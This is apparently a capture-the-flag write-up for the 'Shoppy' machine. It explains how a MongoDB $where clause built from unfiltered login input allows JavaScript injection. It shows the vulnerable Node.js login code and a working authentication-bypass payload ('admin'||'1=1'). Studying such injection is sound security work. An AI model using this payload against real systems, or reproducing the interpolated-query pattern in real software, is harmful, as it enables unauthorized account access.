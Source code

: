 Beyond Auth bypass

Shoppy come with MEAN stack {Mongodb,Express,Angular,Nodejs}  
 
Endpoints   
/login

We identified Nosql injection vulnerability 
In username parameter of login form in shoppy.htb

About Nosql injection in Nodejs

One thing many users are surprised about, is that Mongo supports JavaScript evaluation when a JS expression is placed into a $where clause or passed into a mapReduce or group function. So anywhere unfiltered input is passed to one of these clauses, we may find JavaScript injection.

JavaScript Injection Example

The app has a JavaScript injection in the querystring of the user lookup page. The (vulnerable) lookup code looks like this:

```javascript
let username = req.query.username;
query = { $where: `this.username == '${username}'` }
User.find(query, function (err, users) {
	if (err) {
		// Handle errors
	} else {
		res.render('userlookup', { title: 'User Lookup', users: users });
	}
});
```
As you can see, the username search string is pulled directly from the request without any filtering. The query is a where clause which passes in the username string directly. So, if we put valid JavaScript into the querystring, and match quotes correctly, we can have Mongo execute our JavaScript!

In this case, our goal is to find all valid users, so we'd like to pass in something which will always evaluate to true. If we pass in a string like ' || 'a'=='a the query will become $where: `this.username == '' || 'a'=='a'` which of course always evaluates to true and thus returns all results. With JS injection, there are many other things we might be able to achieve, and boolean checks are just one


Reference no 1 [https://nullsweep.com/a-nosql-injection-primer-with-mongo/](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)

Reference no 2

**Javascript Evaluation Query in mongodb**

[https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/](https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/)


Debuging ShoppyApp

Runing shoppyapp localy and config the mongodb 

Vulnerable Code
```javascript
app.post('/login', async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;
    if (username === undefined || password === undefined) {
        res.status(400).send('Bad Request');
        return;
    }
    const passToTest = require('crypto').createHash('md5').update(password).digest('hex');
    const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
    const result = await User.find(query).maxTimeMS(350);
    if (result.length === 0) {
        res.redirect('/login?error=WrongCredentials');
    } else {
        req.session.username = req.body.username;
        req.session.save((error) => {
            if (error) {
                res.redirect('/login?error=WrongCredentials');
            } else {
                res.redirect('/admin');
            }
        });
    }
});
```
**Payload**
{"username":"admin'||'1=1","password":""}

Set a breakpoint in line 86 and inject the payload the query will look like this
```javascript
$where: 'this.username === 'admin'||' 1=1' && this.password === 'd41d8cd98f00b204e9800998ecf8427e''
```
**Report**
admin OR 1=1 AND passwod in this query "1=1" will evaluates to true and return 1. If we get 0 it will redirect to Wrongcreds if we get 1 it will redirect to /admin endpoint from that point we successfully bypass the auth 
